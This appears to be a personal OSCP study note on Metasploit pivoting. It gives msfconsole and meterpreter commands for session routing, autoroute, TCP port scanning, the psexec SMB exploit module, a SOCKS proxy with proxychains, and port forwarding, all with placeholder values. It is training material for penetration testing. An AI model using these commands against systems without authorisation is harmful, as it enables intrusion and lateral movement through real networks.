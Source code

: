 ```yaml
---
aliases:
  - Metasploit Pivoting
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - metasploit
  - pivoting
  - pivot
  - tunneling
  - port_redirection
author: Mehdi N Tehrani
creat_date: 2024-01-05
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Manually add route to a session
#manual #route #session #add_route_to_session
```msfconsole
route add <subnet> <session_id>
route print
route del <subnet> <session_id>
route flush    # remove all
```

## Port Scanning in Metasploit
#port_scan 
```msfconsole
use auxiliary/scanner/portscan/tcp
set rhosts <ip>
set ports <ports>
run
```

## SMB enumeration in Metasploit
#smb #psexec 
```msfconsole
use exploit/windows/smb/psexec
set smbuser <username>
set smbpass <password>
set rhosts <ip1,ip2>
set lport
set payload <payload>
run
```

# Automatically add route
#autoroute #automatic #route 
```msfconsole
use multi/manage/autoroute
set session <session_id>
run
```

# Proxy
#proxy #socks #socks_proxy
```msfconsole
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 1080
set version 5
run -j
```

update `proxychains.conf` file accordingly
#proxychains 
```sh
$ tail /etc/proxychains.conf -n 1

socks5 127.0.0.1 1080
```

# Port Forwarding
#port_forwarding 
```meterpreter
portfwd list
portfwd add -l <localport> -p <target_port> -r <target_ip>
portfwd delete 
```